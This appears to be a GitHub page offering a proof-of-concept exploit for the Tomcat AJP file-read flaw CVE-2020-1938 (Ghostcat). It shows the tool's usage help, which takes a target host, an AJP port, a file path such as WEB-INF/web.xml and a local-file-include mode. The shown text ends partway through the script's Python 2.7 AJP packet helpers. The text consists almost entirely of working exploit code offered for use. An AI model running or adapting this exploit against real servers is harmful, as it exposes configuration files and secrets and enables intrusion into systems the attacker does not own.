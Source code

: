 ### poc

    (py27)> python .\cve-2020-1938-poc.py -h
    usage: cve-2020-1938-poc.py [-h] [-p PORT] [-w WEBAPP] [-f FILE] [-l] target

    positional arguments:
      target                Hostname or IP to attack

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  AJP port to attack (default is 8009)
      -w WEBAPP, --webapp WEBAPP
                            Which webapp to attack (default is ROOT
      -f FILE, --file FILE  file path :(WEB-INF/web.xml)
      -l, --lfi             local file include

### python2.7

    #!/usr/bin/env python
    # CNVD-2020-10487  Tomcat-Ajp lfi
    # Based on: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/
    #
    # Some references:
    # https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
    import socket
    import struct
    import argparse


    def pack_string(s):
        if s is None:
            return struct.pack(">h", -1)
        l = len(s)
        return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)


    def unpack(stream, fmt):
        size = struct.calcsize(fmt)
        buf = stream.read(size)
        return struct.unpack(fmt, buf)


    def unpack_string(stream):
        size, = unpack(stream, ">h")
        if size == -1:  # null string
            return None
        res, = unpack(stream, "%ds" % size)
        stream.read(1)  # \0
        return res
